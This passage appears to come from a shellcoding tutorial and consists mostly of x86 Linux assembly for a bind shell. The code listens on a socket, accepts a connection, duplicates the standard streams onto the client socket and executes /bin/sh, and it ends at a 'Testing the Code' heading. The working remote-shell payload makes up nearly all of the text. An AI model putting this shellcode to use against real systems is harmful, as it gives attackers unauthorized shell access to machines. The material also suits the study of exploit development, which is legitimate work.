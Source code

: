 ```nasm
	; Listen on the socket
	
	push eax		    ; backlog (0)
	push edi		    ; socketfd
	mov ecx, esp		; point ecx to stack
	inc ebx			    ; increment to 3
	inc ebx			    ; increment to 4
	mov al, 0x66		; socketcall (102)
	int 0x80		    ; execute listen


	; Accept connections

	xor edx, edx		; zero out edx
	push edx		    ; NULL
	push edx		    ; NULL
	push edi		    ; socketfd
	inc ebx			    ; SYS_ACCEPT (5)
	mov ecx, esp		; point ecx to stack
	mov al, 0x66		; socketcall (102)
	int 0x80		    ; execute accept
	
	xchg ebx, eax		; move created client_sock in ebx
	
	; Redirect STDIN, STDOUT, and STDERR

	xor ecx, ecx		; zero out ecx
	mov cl, 0x2 		; set the counter
	
loop:
	mov al, 0x3f		; dup2 (63)
	int 0x80		    ; exec dup2
	dec ecx			    ; decrement counter
	jns loop		    ; jump until SF is set

	; Execute /bin/sh

	push edx		    ; NULL
	push 0x68732f2f		; "hs//"
	push 0x6e69622f 	; "nib/"
	mov ebx, esp		; point ebx to stack
	mov ecx, edx		; NULL
	mov al, 0xb		    ; execve
	int 0x80		    ; execute execve
```


## Testing the Code


To make things easy a simple bash compile script is used for compiling and linking. 

